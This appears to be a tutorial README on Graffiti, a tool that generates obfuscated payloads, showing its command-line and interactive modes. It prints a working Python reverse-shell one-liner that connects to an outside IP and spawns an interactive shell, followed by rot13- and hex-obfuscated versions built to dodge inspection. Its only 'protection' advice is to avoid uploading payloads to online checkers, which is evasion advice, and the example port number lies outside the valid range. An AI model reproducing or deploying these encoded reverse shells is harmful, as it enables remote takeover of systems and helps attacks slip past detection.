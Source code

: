 # Study of one of the hacking SUBJECT 
<p align="center">
  <img src="https://user-images.githubusercontent.com/14183473/49157062-8a351500-f2e4-11e8-80cd-00acd809171e.png">
</p>

# What GRAFFITI is?
Graffiti is a tool that uses a number of different encoding techniques to create obfuscated payloads.

### It offers an array of one-liners and shells in languages such as:

 - Python
 - Perl
 - PHP
 - Powershell
 - Bash

Graffiti will also accept a language that is not currently on the list and store the oneliner into a database.

### Payloads can be encoded using the following techniques:

 - Base64
 - Hex
 - AES256
 - ...



### Features

 - Option to run native OS commands
 - Multiple encoding techniques 
 - Terminal history
 - Ability to run external commands
 - Ability to securely wipe the history files
 - Ability to create your own payload files
 
# What is the mechanism how to do it?
First, we need to clone into the Github for [Graffiti](https://github.com/Ekultek/Graffiti) by using `git` command

![e1800918](pic/1.PNG)

Then get into that directory and list everything to compare what is missing or not by using `ls` command

![e1800918](pic/2.PNG)

Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, type `graffiti -h`:

![e1800918](pic/3.PNG)

# Now, let's the running begins

The easy way to run Graffiti is in normal command-line mode. All we have to do is pass the arguments after the command, just like you would with any other tool or script. For example, we can list all available payloads with the `-l` command

![e1800918](pic/4.PNG)

We can see that there are options segregated between Windows and Linux for [Netcat shells](https://null-byte.wonderhowto.com/how-to/hack-like-pro-use-netcat-swiss-army-knife-hacking-tools-0148657/), [Python shells](https://wiki.python.org/moin/PythonShells) and several others.

Graffiti comes complete with a database that will insert each encoded payload into it, in order to allow end users to view already created payloads for future use. To see the available encoders for the payloads, type `-Vc`

![e1800918](pic/5.PNG)

The `-p` command is the staff of life of Graffiti — use it to specify a payload, followed by `-c` to specify the encoding technique, and finally `-lH` and `-lP` to set the listening address and port, respectively. Here's a raw-format Python reverse shell which means no encoding:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c raw -lH 18.0.9.18 -lP 1800918
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("18.0.9.18",1800918));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

That will spit out the command for the appropriate reverse shell with all the information filled in.

Let's seek a different example. but encoded in rot13:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c rot13 -lH 18.0.9.18 -lP 1800918
python -c 'exec("vzcbeg fbpxrg,fhocebprff,bf;f=fbpxrg.fbpxrg(fbpxrg.NS_VARG,fbpxrg.FBPX_FGERNZ);f.pbaarpg((\"18.0.9.18\",1800918));bf.qhc2(f.svyrab(),0); bf.qhc2(f.svyrab(),1); bf.qhc2(f.svyrab(),2);c=fhocebprff.pnyy([\"/ova/fu\",\"-v\"]);".decode("rot13"))'

```

Another one with hex:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti -p /linux/python/socket_reverse.json -c hex -lH 18.0.9.18 -lP 1800918
python -c 'exec("696d706f727420736f636b65742c73756270726f636573732c6f733b733d736f636b65742e736f636b657428736f636b65742e41465f494e45542c736f636b65742e534f434b5f53545245414d293b732e636f6e6e65637428282231382e302e392e3138222c3138303039313829293b6f732e6475703228732e66696c656e6f28292c30293b206f732e6475703228732e66696c656e6f28292c31293b206f732e6475703228732e66696c656e6f28292c32293b703d73756270726f636573732e63616c6c285b222f62696e2f7368222c222d69225d293b".decode("hex"))'

```

Graffiti keeps a cache of payloads like a history for easy access, don't need to run those commands above again. Use the `-vC` option to see them:

![e1800918](pic/6.PNG)

We can also clear the history with the `-W` command:

![e1800918](pic/7.PNG)

# The other way to run Graffiti is in its interactive mode, which comes with a built-in terminal environment. There are more commands and clearly informations.

First of all, just type in `graffiti`:

```bash

root@e1800918:~/cyebr/Graffiti# graffiti

  ________              _____  _____.__  __  .__
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/
 v(0.0.10)

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti#

```

Let's take a look at the help menu, type `help` or `?` :

![e1800918](pic/8.PNG)

We can check if we have the up-to-date version of the graffiti by `check` command:

![e1800918](pic/9.PNG)

We can get Linux kernel version and some other system information with the `uname -a` command in Linux.

![e1800918](pic/10.PNG)

The `list` command will show all the available payloads but not clearly allocated like the `-l` switch from the normal command-line mode:

![e1800918](pic/11.PNG)

We can create a payload with the `use` command, followed by the desired payload and the type of encoding to use:

![e1800918](pic/12.PNG)

As same as Graffiti's command-line mode, we can view a history of cached payloads by using the `cached` command. We can also display the command history with the `history` option:

Finally, to exit interactive mode, just type `exit`:

![e1800918](pic/13.PNG)

# How to protect from it or uncover it?

Just never upload payloads to online checkers.

# Summary

We learned in this tutorial how to use a tool called Graffiti in order to create obfuscated payloads for use in penetration testing and hacking. Second, we set up the platform and have it mounted easily on our system. Next, we explored the command-line mode and some of its options, including listing payloads, viewing history, and generating encoded payloads using a variety of techniques. Then we looked at the interactive mode and how it's easy to use to create payloads, all from an interactive prompt.



